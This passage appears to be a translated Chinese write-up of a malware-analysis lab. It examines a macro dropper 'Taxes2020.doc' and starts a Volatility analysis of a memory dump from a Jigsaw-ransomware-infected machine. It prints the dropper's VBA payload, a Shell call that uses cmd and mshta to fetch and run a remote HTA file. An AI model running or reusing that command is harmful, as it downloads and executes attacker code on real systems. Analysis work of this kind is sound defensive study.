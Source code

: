 **正如我对`DefinitelyALegitInvoice.doc`的分析一样，为了简洁起见，我将编辑`Taxes2020.doc`的大部分输出。下表是由`vmonkey`生成的宏及其各自行为的总结:**

**![](img/2c83d7bdee639948609aecc8c8234fd2.png)**

**表 2:`Taxes2020.doc`宏行为总结。**

**以下是`Taxes2020.doc`有效载荷的源代码:**

```
' VBA CODE (with long lines collapsed):
Private Sub X544FE()
    Shell ("cmd /c mshta http://tryhackme.com/notac2cserver.sh")
End Sub
```

**`vmonkey`还生成了以下内容作为`Taxes2020.doc`的潜在危害指标:**

```
INFO     Found possible intermediate IOC (URL): 'http://ns.adobe.com/xap/1.0/sType/ResourceEvent'
INFO     Found possible intermediate IOC (URL): 'http://www.w3.org/1999/02/22-rdf-syntax-ns'
INFO     Found possible intermediate IOC (URL): 'http://purl.org/dc/elements/1.1/'
INFO     Found possible intermediate IOC (URL): 'http://schemas.openxmlformats.org/drawingml/2006/main'
INFO     Found possible intermediate IOC (URL): 'http://ns.adobe.com/xap/1.0/mm/'
INFO     Found possible intermediate IOC (URL): 'http://tryhackme.com/notac2cserver.sh'
INFO     Found possible intermediate IOC (URL): 'http://ns.adobe.com/photoshop/1.0/'
INFO     Found possible intermediate IOC (URL): 'http://ns.adobe.com/xap/1.0/'
```

**关于`Taxes2020.doc`，它遵循相同的基本逻辑，通过`Shell`命令和`cmd.exe`执行 HTML 应用有效载荷。**

**随着滴管分析的结束，我觉得我现在有足够的上下文来分析被 Jigsaw 勒索软件感染的计算机系统的物理内存转储。**

## **物理内存转储的粗略分析**

**我使用 *Volatility Framework* (参见[Volatility Foundation n . d .](https://www.volatilityfoundation.org/about))来分析感染了 Jigsaw 勒索软件的计算机系统的物理内存转储。我首先指示`volatility`从内存转储中找出 Microsoft Windows 的哪个主要版本以及哪个服务包正在被感染的系统上运行:**

```
**remnux@thm-remnux:~/Tasks/6$ volatility -f Win7-Jigsaw.raw imageinfo**
Volatility Foundation Volatility Framework 2.6.1
/usr/local/lib/python2.7/dist-packages/volatility/plugins/community/YingLi/ssh_agent_key.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in a future release.
  from cryptography.hazmat.backends.openssl import backend
INFO    : volatility.debug    : Determining profile based on KDBG search...
          ***Suggested Profile(s) : Win7SP1x64, Win7SP0x64***, Win2008R2SP0x64, Win2008R2SP1x64_24000, Win2008R2SP1x64_23418, Win2008R2SP1x64, Win7SP1x64_24000, Win7SP1x64_23418
                     AS Layer1 : WindowsAMD64PagedMemory (Kernel AS)
                     AS Layer2 : FileAddressSpace (/home/remnux/Tasks/6/Win7-Jigsaw.raw)
                      PAE type : No PAE
                           DTB : 0x187000L
```
